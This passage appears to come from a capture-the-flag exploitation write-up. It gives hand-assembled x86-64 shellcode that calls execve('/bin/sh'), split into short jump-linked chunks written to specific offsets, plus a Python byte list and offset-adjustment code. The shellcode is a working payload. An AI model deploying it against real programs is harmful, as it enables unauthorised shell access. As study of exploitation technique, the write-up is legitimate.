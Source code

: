This writes our shellcode in the offsets `352, 272, 160, 496, 472, 544, 408`.
A bit of hand-written assembly later, I ended up with 

```asm
   0:	48 8d 7c 24 f8       	lea    rdi,[rsp-0x8]
   5:	eb 70                	jmp    77 <shellcode+0x77>
  
   7:	66 c7 47 06 68 00    	mov    WORD PTR [rdi+0x6],0x68
   d:	eb 50                	jmp    5f <shellcode+0x5f>
  
  f:	66 c7 47 04 2f 73    	mov    WORD PTR [rdi+0x4],0x732f
  15:	eb 38                	jmp    4f <shellcode+0x4f>
  
  17:	66 c7 47 02 69 6e    	mov    WORD PTR [rdi+0x2],0x6e69
  1d:	eb 40                	jmp    5f <shellcode+0x5f>
  
  1f:	66 c7 07 2f 62       	mov    WORD PTR [rdi],0x622f
  24:	eb 18                	jmp    3e <shellcode+0x3e>

  26:	b0 3b                	mov    al,0x3b
  28:	31 f6                	xor    esi,esi
  2a:	31 d2                	xor    edx,edx
  2c:	0f 05                	syscall 
```

which is equivalent to `execve("/bin/sh", NULL, NULL)`, with the difference that it'll definitely
crash the process when it returns.

The grouped lines are the 8-byte-or-less instruction groups that can be written, and must be written
to the first 6 offsets, from lower to higher. The seventh one can be whatever garbage you want, it won't
be executed.

In python:

```python
shellcode = [
    [ 0x66, 0xc7, 0x47, 0x04, 0x2f, 0x73, 0xeb, 0x38 ],  # 352
    [ 0x66, 0xc7, 0x47, 0x06, 0x68, 0x00, 0xeb, 0x50 ],  # 272
    [ 0x48, 0x8d, 0x7c, 0x24, 0xf8, 0xeb, 0x70 ],        # 160
    [ 0xb0, 0x3b, 0x31, 0xf6, 0x31, 0xd2, 0x0f, 0x05 ],  # 496
    [ 0x66, 0xc7, 0x07, 0x2f, 0x62, 0xeb, 0x18 ],        # 472
    [ 0xcc, 0xce ],                                      # 544
    [ 0x66, 0xc7, 0x47, 0x02, 0x69, 0x6e, 0xeb, 0x40 ],  # 408
]
for line in shellcode:
    if line[-1] != 0x05:
        line[-1] -= len(line)
```

The decrement is used to adjust the jump offsets to account for the RIP advancing, as they
were compiled as if RIP were the first instruction in each block. `[ 0xcc, 0xce ]` will just become
two int3s, but it could be anything you wanted. The if is needed to not corrupt the `syscall` instruction.
